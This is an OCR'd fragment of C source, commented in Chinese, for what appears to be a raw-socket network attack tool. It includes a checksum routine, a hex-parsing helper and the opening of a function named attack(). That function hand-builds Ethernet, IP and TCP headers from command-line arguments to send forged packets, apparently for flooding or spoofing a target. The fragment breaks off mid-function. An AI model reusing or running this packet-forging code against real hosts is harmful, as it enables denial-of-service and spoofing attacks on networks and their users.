 ```
	}

	unsigned short check_sum(unsigned short *addr, int len, unsigned sum)
	{
		int nleft = len;
		unsigned short *w = addr;
		unsigned short ret = 0;
		while (nleft > 1) {
			sum += *w++;
			nleft -= 2;
		}
		if (nleft == 1) {
			*(unsigned char *)(&ret) = *(unsigned char *)w;
			sum += ret;
		}

		sum = (sum>>16) + (sum&0xffff);
		sum += (sum>>16);
		ret = ~sum;
		return ret;
	}

	int change(char c)
	{
		if (c >= 'a') return c-'a'+10;
		if (c >= 'A') return c-'A'+10;
		return c-'0';
	}

	//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
	void attack(int skfd, struct sockaddr_ll *target, char **argv)
	{
		char buf[512]={0};
		struct ethhdr *eth;
		struct ip *ip;
		struct tcphdr *tcp;
		int pks_len;
		int i;
		int op_len = 12;
		unsigned short dstport;
		dstport = atoi(argv[3]);

		//在我们TCP的报文中Data没有字段，所以整个IP报文的长度
		pks_len = sizeof(struct ethhdr) + sizeof(struct ip) + sizeof(struct tcphdr) + op_len;
		eth = (struct ethhdr *) buf;
		/*
		eth->h_dest[0] = 0x00;
		eth->h_dest[1] = 0x50;
		eth->h_dest[2] = 0x56;
		eth->h_dest[3] = 0xee;
		eth->h_dest[4] = 0x14;
		eth->h_dest[5] = 0xa6;
		*/
	
		for (i=0;i<6;i++)
			eth->h_dest[i] = change(argv[1][i*3])*16 + change(argv[1][i*3+1]);

		/*
		eth->h_source[0] = 0x00;
		eth->h_source[1] = 0x0b;
		eth->h_source[2] = 0x28;
		eth->h_source[3] = 0xd7;
		eth->h_source[4] = 0x26;
```